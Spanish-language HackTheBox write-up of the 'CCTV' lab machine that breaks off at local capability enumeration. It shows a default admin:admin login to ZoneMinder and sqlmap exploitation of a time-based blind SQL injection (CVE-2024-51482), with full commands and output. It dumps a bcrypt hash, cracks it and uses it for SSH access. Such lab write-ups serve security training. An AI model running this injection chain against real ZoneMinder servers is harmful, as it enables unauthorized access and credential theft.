# CCTV HackTheBox (Easy)

## CCTV HackTheBox (Easy)

## Contexto de la maquina

### Trayectoria CCTV

<figure><figcaption></figcaption></figure>

### Descripción

La máquina **CCTV** presenta un entorno Linux orientado a la gestión de cámaras de vigilancia. El sistema expone una aplicación web que integra software de monitorización de vídeo y diversos servicios internos asociados al almacenamiento y administración de eventos de cámaras.

Durante el proceso de explotación se identifican múltiples fallos de seguridad, incluyendo credenciales por defecto, vulnerabilidades de **inyección SQL**, exposición de información sensible mediante **captura de tráfico interno** y una vulnerabilidad de **ejecución remota de comandos (RCE)** en un panel de administración de cámaras.

**Objetivo del reto**

El objetivo consiste en comprometer completamente el sistema obteniendo:

* Acceso inicial al servidor
* Escalada lateral entre usuarios
* Acceso final al usuario **root**
* Obtención de las flags del sistema

**Tipo de máquina**

* Linux
* Web Application
* Network Monitoring / CCTV infrastructure

**Habilidades y técnicas evaluadas**

* Enumeración de servicios con **Nmap**
* Identificación de credenciales por defecto
* Explotación de **SQL Injection**
* Extracción de información con **sqlmap**
* Cracking de hashes **bcrypt**
* Escalada mediante **Linux capabilities**
* Captura de tráfico interno con **tcpdump**
* Pivoting y **port forwarding con SSH**
* Explotación de **RCE en software de videovigilancia**

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-09 04:40 -0400
Nmap scan report for 10.129.5.205
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.28 seconds
```

Observamos que únicamente hay **dos puertos abiertos**:

* **22 → SSH**
* **80 → HTTP**

El puerto que más nos interesa inicialmente es el **puerto 80**, ya que el servicio web está realizando una **redirección hacia el dominio `cctv.htb`**.

Para poder resolver correctamente este dominio, debemos añadirlo manualmente a nuestro archivo `hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>           cctv.htb
```

Guardamos los cambios y accedemos al dominio desde el navegador:

```
URL = http://cctv.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos una página web aparentemente normal relacionada con **sistemas de videovigilancia y cámaras de seguridad**.

Sin embargo, si nos fijamos en el botón **"Staff Logins"**, veremos que nos redirige a un panel de autenticación.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Analizando la interfaz del login, vemos que pertenece a **ZoneMinder**, un software de código abierto utilizado para **gestión de sistemas de videovigilancia**.

Por lo tanto, el siguiente paso lógico es investigar si este software presenta **vulnerabilidades conocidas**.

Tras realizar algunas búsquedas, encontramos varias vulnerabilidades asociadas a ZoneMinder. Sin embargo, el problema es que **aún no conocemos la versión exacta instalada en el servidor**.

Antes de continuar con la búsqueda de vulnerabilidades específicas, vamos a comprobar si el sistema utiliza **credenciales por defecto**, algo relativamente común en este tipo de aplicaciones.

<figure><figcaption></figcaption></figure>

Después de investigar un poco, encontramos que las credenciales por defecto suelen ser:

```
admin : admin
```

Probamos estas credenciales en el panel de login.

<figure><figcaption></figcaption></figure>

Observamos que el acceso es **válido**, por lo que conseguimos autenticarnos correctamente en el sistema.

Aunque inicialmente no vemos información especialmente relevante dentro del panel, ahora disponemos de **una sesión autenticada**, lo que nos permitirá probar **vulnerabilidades que requieran autenticación previa**.

Utilizando **Metasploit**, también podemos identificar la versión exacta del software, que resulta ser:

```
ZoneMinder 1.37.63
```

Con esta información, procedemos a buscar **vulnerabilidades específicas para esta versión**.

***

Después de un tiempo, si volvemos a recargar la página veremos que el panel termina de cargar toda la información correctamente.

<figure><figcaption></figcaption></figure>

***

## Escalate user mark

### CVE-2024-51482

<figure><figcaption></figcaption></figure>

Tras investigar vulnerabilidades asociadas a la versión identificada, encontramos un **CVE interesante**:

```
CVE-2024-51482
```

Esta vulnerabilidad permite explotar una **inyección SQL (SQL Injection)** en determinadas peticiones del sistema.

Encontramos además un repositorio que incluye información sobre la vulnerabilidad y un **PoC de explotación**.

Repositorio:

URL = [Info PoC GitHub CVE-2024-51482](https://github.com/Gh0s7Ops/CVE-2024-51482-Multi-Stage-Surveillance-System-Exploit)

En dicho repositorio se explica cómo comprobar la vulnerabilidad y cómo explotarla utilizando **sqlmap**.

Primero vamos a comprobar si el objetivo es vulnerable.

```shell
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=<COOKIE>" -p tid --dbms=mysql --batch
```

***

> Cookie necesaria

Para ejecutar correctamente el ataque necesitamos incluir la **cookie de sesión autenticada**.

Esta cookie puede obtenerse inspeccionando el almacenamiento del navegador.

<figure><figcaption></figcaption></figure>

Sabiendo eso, nos copiamos la que pone `ZMSESSID` y lo pegamos en la terminal donde pone `<COOKIE>`.

***

Respuesta:

```
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:04:57 /2026-03-09/

[05:04:57] [INFO] testing connection to the target URL
[05:04:57] [INFO] checking if the target is protected by some kind of WAF/IPS
[05:04:57] [INFO] testing if the target URL content is stable
[05:04:57] [INFO] target URL content is stable
[05:04:57] [WARNING] heuristic (basic) test shows that GET parameter 'tid' might not be injectable
[05:04:57] [INFO] testing for SQL injection on GET parameter 'tid'
[05:04:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[05:04:58] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[05:04:58] [INFO] testing 'Generic inline queries'
[05:04:58] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[05:04:59] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[05:04:59] [WARNING] time-based comparison requires larger statistical model, please wait.......... (done)                                                                             
[05:05:10] [INFO] GET parameter 'tid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[05:05:10] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[05:05:10] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[05:05:11] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[05:05:13] [INFO] checking if the injection point on GET parameter 'tid' is a false positive
GET parameter 'tid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 93 HTTP(s) requests:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 3475 FROM (SELECT(SLEEP(5)))BZWD)
---
[05:05:33] [INFO] the back-end DBMS is MySQL
[05:05:33] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[05:05:33] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 59 times
[05:05:33] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'

[*] ending @ 05:05:33 /2026-03-09/
```

Esto confirma que el parámetro `tid` es vulnerable a **SQL Injection basada en tiempo (time-based blind SQLi)**.

Por lo tanto, procedemos a enumerar las bases de datos disponibles.

```shell
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=<COOKIE>" -p tid --dbms=mysql --batch --dbs
```

Respuesta:

```
       ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.12#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:06:35 /2026-03-09/

[05:06:36] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 3475 FROM (SELECT(SLEEP(5)))BZWD)
---
[05:06:36] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[05:06:42] [INFO] confirming MySQL
[05:06:42] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[05:06:53] [INFO] adjusting time delay to 1 second due to good response times
[05:06:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
[05:06:53] [INFO] fetching database names
[05:06:53] [INFO] fetching number of databases
[05:06:53] [INFO] retrieved: 3
[05:06:57] [INFO] retrieved: information_schema
[05:08:03] [INFO] retrieved: perfor
[05:08:31] [ERROR] invalid character detected. retrying..
[05:08:31] [WARNING] increasing time delay to 2 seconds
mance_schema
[05:09:45] [INFO] retrieved: zm
available databases [3]:
[*] information_schema
[*] performance_schema
[*] zm

[05:10:02] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 303 times
[05:10:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'

[*] ending @ 05:10:02 /2026-03-09/
```

Observamos tres bases de datos:

* `information_schema`
* `performance_schema`
* `zm`

Las dos primeras son bases de datos **propias de MySQL**, por lo que la que realmente nos interesa es:

```
zm
```

Ahora enumeramos las tablas de esta base de datos.

```shell
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=<COOKIE>" -p tid --dbms=mysql --batch -D zm --tables
```

Respuesta:

```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:14:49 /2026-03-09/

[05:14:49] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 3475 FROM (SELECT(SLEEP(5)))BZWD)
---
[05:14:50] [INFO] testing MySQL
[05:14:50] [INFO] confirming MySQL
[05:14:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
[05:14:50] [INFO] fetching tables for database: 'zm'
[05:14:50] [INFO] fetching number of tables for database 'zm'
[05:14:50] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                         
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[05:14:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
4
[05:15:06] [INFO] adjusting time delay to 1 second due to good response times
3
[05:15:07] [INFO] retrieved: Config
[05:15:30] [INFO] retrieved: ControlPresets
[05:16:15] [INFO] retrieved: Controls
[05:16:27] [INFO] retrieved: Devices
[05:16:52] [INFO] retrieved: Event_Data
[05:17:31] [INFO] retrieved: Event_Summaries
[05:18:06] [INFO] retrieved: Events
[05:18:14] [INFO] retrieved: Events_Archived
[05:18:56] [INFO] retrieved: Events_Day
[05:19:13] [INFO] retrieved: Events_Hour
[05:19:39] [INFO] retrieved: Events_Month
[05:20:08] [INFO] retrieved: Events_Tags
[05:20:31] [INFO] retrieved: Events_Week
[05:20:55] [INFO] retrieved: Filters
[05:21:21] [INFO] retrieved: Fr
[05:21:30] [ERROR] invalid character detected. retrying..
[05:21:30] [WARNING] increasing time delay to 2 seconds
ames
[05:21:52] [INFO] retrieved: Gr
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
oups
[05:22:38] [INFO] retrieved: Groups_Monitors
[05:24:06] [INFO] retrieved: Groups_Permissions
[05:25:36] [INFO] retrieved: Logs
[05:26:08] [INFO] retrieved: Manufacturers
[05:27:29] [INFO] retrieved: Map
[05:27:55] [ERROR] invalid character detected. retrying..
[05:27:55] [WARNING] increasing time delay to 3 seconds
s
[05:28:05] [INFO] retrieved: Models
[05:29:01] [INFO] retrieved: Mo
[05:29:17] [ERROR] invalid character detected. retrying..
[05:29:17] [WARNING] increasing time delay to 4 seconds
nitorPresets
[05:32:01] [INFO] retrieved: Monitor_Status
[05:34:17] [INFO] retrieved: Monitors
[05:34:59] [INFO] retrieved: Monitors_Permissions
[05:38:21] [INFO] retrieved: MontageLayouts
[05:40:49] [INFO] retrieved: Object_Types
[05:43:43] [INFO] retrieved: Reports
[05:45:26] [INFO] retrieved: Server_Stats
[05:48:12] [INFO] retrieved: Servers
[05:48:49] [INFO] retrieved: Session
[05:50:17] [ERROR] invalid character detected. retrying..
[05:50:17] [WARNING] increasing time delay to 5 seconds
s
[05:50:32] [INFO] retrieved: Snapshots
[05:53:07] [INFO] retrieved: Snapshots_Events
[05:56:07] [INFO] retrieved: States
[05:57:30] [INFO] retrieved: Stats
[05:58:06] [INFO] retrieved: Storage
[05:59:23] [INFO] retrieved: Tags
[06:00:25] [INFO] retrieved: TriggersX10
[06:02:51] [INFO] retrieved: User_Preferences
[06:07:10] [INFO] retrieved: Users
[06:07:46] [INFO] retrieved: ZonePresets
[06:10:58] [INFO] retrieved: Zones
Database: zm
[43 tables]
+----------------------+
| Config               |
| ControlPresets       |
| Controls             |
| Devices              |
| Event_Data           |
| Event_Summaries      |
| Events_Archived      |
| Events_Day           |
| Events_Hour          |
| Events_Month         |
| Events_Tags          |
| Events_Week          |
| Filters              |
| Frames               |
| Groups_Monitors      |
| Groups_Permissions   |
| Manufacturers        |
| Maps                 |
| Models               |
| MonitorPresets       |
| Monitor_Status       |
| Monitors             |
| Monitors_Permissions |
| MontageLayouts       |
| Object_Types         |
| Reports              |
| Server_Stats         |
| Servers              |
| Sessions             |
| Snapshots            |
| Snapshots_Events     |
| States               |
| Stats                |
| Tags                 |
| TriggersX10          |
| User_Preferences     |
| Users                |
| ZonePresets          |
| Zones                |
| Events               |
| Groups               |
| Logs                 |
| Storage              |
+----------------------+

[06:11:34] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2443 times
[06:11:34] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'

[*] ending @ 06:11:34 /2026-03-09/
```

Después de un tiempo obtenemos una gran cantidad de tablas, entre las que destacan:

```
Users
Sessions
Monitors
Events
Logs
```

Entre todas ellas, la que más nos interesa es la tabla:

```
Users
```

Por lo tanto, vamos a extraer información de dicha tabla.

```shell
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=<COOKIE>" -p tid --dbms=mysql --batch -D zm -T Users -C "Username" --dump
```

Respuesta:

```
       ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:14:41 /2026-03-09/

[06:14:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 3475 FROM (SELECT(SLEEP(5)))BZWD)
---
[06:14:41] [INFO] testing MySQL
[06:14:41] [INFO] confirming MySQL
[06:14:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
[06:14:41] [INFO] fetching entries of column(s) 'Username' for table 'Users' in database 'zm'
[06:14:41] [INFO] fetching number of column(s) 'Username' entries for table 'Users' in database 'zm'
[06:14:41] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                         
[06:14:44] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[06:14:58] [INFO] adjusting time delay to 3 seconds due to good response times
3
[06:14:59] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                
a
[06:15:10] [INFO] adjusting time delay to 1 second due to good response times
dmin
[06:15:23] [INFO] retrieved: mark
[06:15:38] [INFO] retrieved: superadmin
Database: zm
Table: Users
[3 entries]
+------------+
| Username   |
+------------+
| admin      |
| mark       |
| superadmin |
+------------+

[06:16:14] [INFO] table 'zm.Users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cctv.htb/dump/zm/Users.csv'
[06:16:14] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 183 times
[06:16:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'

[*] ending @ 06:16:14 /2026-03-09/
```

Hemos conseguido extraer **tres usuarios registrados en el sistema**.

***

> NOTA:

En este caso he utilizado este proceso de enumeración más largo para **analizar la estructura completa de la base de datos**.

Sin embargo, el repositorio del PoC mencionado anteriormente ya indica directamente **qué tablas y datos son relevantes**, por lo que el proceso también podría realizarse de forma más directa.

***

Ahora vamos a intentar obtener el **hash de la contraseña del usuario `mark`**, ya que es el que más nos interesa en este contexto.

```shell
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" --cookie="ZMSESSID=<COOKIE>" -p tid --dbms=mysql --batch -D zm -T Users -C "Password" --where="Username='mark'" --dump
```

Respuesta:

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.12#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:18:12 /2026-03-09/

[06:18:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 3475 FROM (SELECT(SLEEP(5)))BZWD)
---
[06:18:12] [INFO] testing MySQL
[06:18:12] [INFO] confirming MySQL
[06:18:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 8.0.0
[06:18:12] [INFO] fetching entries of column(s) 'Password' for table 'Users' in database 'zm'
[06:18:12] [INFO] fetching number of column(s) 'Password' entries for table 'Users' in database 'zm'
[06:18:12] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                         
[06:18:14] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[06:18:19] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                
[06:18:31] [INFO] adjusting time delay to 1 second due to good response times
$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
Database: zm
Table: Users
[1 entry]
+--------------------------------------------------------------+
| Password                                                     |
+--------------------------------------------------------------+
| $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
+--------------------------------------------------------------+

[06:22:53] [INFO] table 'zm.Users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cctv.htb/dump/zm/Users.csv'
[06:22:53] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 523 times
[06:22:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cctv.htb'

[*] ending @ 06:22:53 /2026-03-09/
```

Ahora que hemos obtenido el hash de la contraseña del usuario `mark`, el siguiente paso será intentar **crackearlo mediante fuerza bruta o diccionario** para recuperar la contraseña en texto plano.

### Crack hash

> hash

```
$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
```

Una vez obtenido el hash correspondiente al usuario `mark`, procedemos a intentar crackearlo utilizando **John the Ripper** junto con un diccionario.

```shell
john --format=bcrypt --wordlist=<WORDLIST> hash
```

Respuesta:

```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
opensesame       (?)     
1g 0:00:00:32 DONE (2026-03-09 06:24) 0.03099g/s 185.2p/s 185.2c/s 185.2C/s cristhian..tuyyo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Tras finalizar el proceso, vemos que **John the Ripper ha logrado recuperar la contraseña en texto plano**.

### SSH (mark)

Intentamos autenticarnos utilizando el usuario `mark`.

```shell
ssh mark@<IP>
```

Metemos como contraseña `opensesame`...

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon  9 Mar 10:25:25 UTC 2026

  System load:           0.09
  Usage of /:            74.4% of 8.70GB
  Memory usage:          29%
  Swap usage:            0%
  Processes:             255
  Users logged in:       0
  IPv4 address for eth0: 10.129.5.205
  IPv6 address for eth0: dead:beef::250:56ff:fe94:a493

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

14 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
mark@cctv:~$ whoami
mark
```

Esto confirma que **las credenciales eran válidas también para el acceso por SSH**, por lo que hemos conseguido una **shell en el sistema como el usuario `mark`**.

## Escalate user sa\_mark

<figure><figcaption></figcaption></figure>

Una vez dentro del sistema, comenzamos con la **fase de enumeración local**.

Si revisamos el archivo `passwd`, podremos observar que existe un usuario llamado:

```
sa_mark
```

Esto nos da una pista bastante clara de que probablemente necesitaremos **escalar privilegios hacia dicho usuario**, por lo que continuamos enumerando el sistema en busca de posibles vectores de escalada.

### Enumeración de capabilities

Una buena práctica durante la enumeración es revisar las **Linux capabilities** asignadas a los binarios del sistema.

```shell
getcap / -r 2>/dev/null
```

Respuesta:

```
/snap/core22/2292/usr/bin/ping cap_net_raw=ep
/snap/snapd/25935/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p
/snap/core24/1349/usr/bin/ping cap_net_raw=ep
